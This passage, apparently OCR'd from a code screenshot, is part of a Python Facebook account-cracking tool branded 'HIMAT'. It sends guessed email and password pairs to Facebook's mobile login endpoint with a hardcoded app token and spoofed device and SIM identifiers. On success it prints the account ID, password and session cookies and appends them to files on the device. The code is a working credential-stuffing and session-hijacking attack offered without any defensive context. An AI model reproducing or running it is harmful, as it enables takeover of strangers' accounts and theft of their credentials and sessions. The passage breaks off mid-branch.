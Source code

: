                         accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        jf =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{jf}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data ={'adid': '9A6bccC56b8db685', 
                        'format': 'json', 
                        'device_id': 'fc261096-a824-4e0c-b758-cdea01268a7d', 
                        'email': ids,
                        'password': pas,
                        'generate_analytics_claims': '1', 
                        'community_id': '', 
                        'cpl': 'true', 
                        'try_num': '1', 
                        'family_device_id': '8bf4b3bf-6f1b-4147-9a98-7e72854a9962', 
                        'secure_family_device_id': '22d82b5e-7f55-4f4d-a91a-b9c68a699834', 
                        'sim_serials': '["41669964333903521303"]', 
                        'credentials_type': 'password', 
                        'source': 'login', 
                        'error_detail_type': 'button_with_disabled', 
                        'fb4a_shared_phone_cpl_experiment':'fb4a_shared_phone_nonce_cpl_at_risk_v3', 
                        'fb4a_shared_phone_cpl_group': 'enable_v3_at_risk', 
                        'enroll_misauth': 'false', 
                        'generate_session_cookies': '1', 
                        'generate_machine_id': '1', 
                        'jazoest': '2999', 
                        'meta_inf_fbmeta': '', 
                        'encrypted_msisdn': '', 
                        'currently_logged_in_userid': '0', 
                        'locale': 'en_US', 
                        'fb_api_req_friendly_name': 'authenticate', 
                        'fb_api_caller_class': 'Fb4aAuthHandler', 
                        'api_key': '350685531728', 
                        'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
                        headers={'X-FB-Friendly-Name': 'authenticate', 
                        'X-FB-Net-HNI': '12602', 
                        'X-FB-SIM-HNI': '52644', 
                        'X-FB-Connection-Type': 'Mobile.LTE', 
                        'User-Agent':ua,
                        'Accept-Encoding': 'gzip, deflate', 
                        'Content-Type': 'application/x-www-form-urlencoded', 
                        'X-FB-HTTP-Engine': 'Liger'}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[31;47m [HIMAT==>OK]\33[0;m\033[1;32m '+str(uid)+' | '+pas+'\033[1;97m')
                                        print("")
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print('\r\r\033[31;47m'"Cookie:\33[0;m\033[1;32m "+coki)
                                        open('/sdcard/HIMAT-COOKIE.txt','a').write(coki+'\n')
                                        open('/sdcard/HIMAT-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']: